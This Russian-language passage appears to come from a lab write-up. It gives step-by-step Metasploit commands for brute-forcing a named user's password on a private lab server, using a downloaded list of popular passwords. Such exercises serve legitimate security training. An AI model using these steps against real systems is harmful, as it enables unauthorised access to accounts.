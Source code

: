 Указываем IP-адрес атакуемого сервера:

set RHOSTS 192.168.122.205

![](Aspose.Words.9c531c30-d4d7-4354-b40f-2861995dab0b.006.png)

Устанавливаем имя пользователя, с которым будем брутфорсить пароль:

set USERNAME IvanPopov\_IT

![](Aspose.Words.9c531c30-d4d7-4354-b40f-2861995dab0b.007.png)

При помощи wget скачиваем список самых популярных паролей с github в .txt файле:

wget <https://raw.githubusercontent.com/danielmiessler/SecLists/refs/heads/master/Passwords/2023-200_most_used_passwords.txt>

![](Aspose.Words.9c531c30-d4d7-4354-b40f-2861995dab0b.008.png)

После чего применяем его командой:

set PASS\_FILE /path/to/passwords.txt

![](Aspose.Words.9c531c30-d4d7-4354-b40f-2861995dab0b.009.png)

Запускаем брутфорс с помощью команды:

run

После успешного подбора пароля получаем следующий вывод:

![](Aspose.Words.9c531c30-d4d7-4354-b40f-2861995dab0b.010.png)
